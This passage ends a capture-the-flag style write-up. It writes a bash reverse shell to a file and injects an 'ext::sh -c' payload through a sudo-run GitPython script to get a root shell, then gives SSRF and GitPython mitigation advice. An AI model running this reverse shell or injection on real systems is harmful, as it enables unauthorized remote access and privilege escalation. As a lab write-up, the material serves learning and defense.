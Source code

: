 We managed to execute commands successfully, now let's get a reverse shell.

First I'll write an bash rev shell to a file.

```bash
echo '/bin/bash -i >& /dev/tcp/10.10.16.8/9001 0>&1' > /tmp/shell.sh
```

Give the file execute permission, setup a listener then run the exploit command.

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```

![shell](12.png)

We got a shell!

## **Prevention and Mitigation**

### Server Side Request Forgery

SSRF allows an attacker to manipulate a server into making requests to internal or external services on their behalf.

There should be an access restriction to internal resources to prevent any information disclosure.

### GitPython

The `GitPython` library is vulnerable to RCE due to improper user input validation, which makes it possible to inject a maliciously crafted payload to achieve command execution.

The solution is to upgrade to version 3.1.30 or higher.

## **References**

<https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

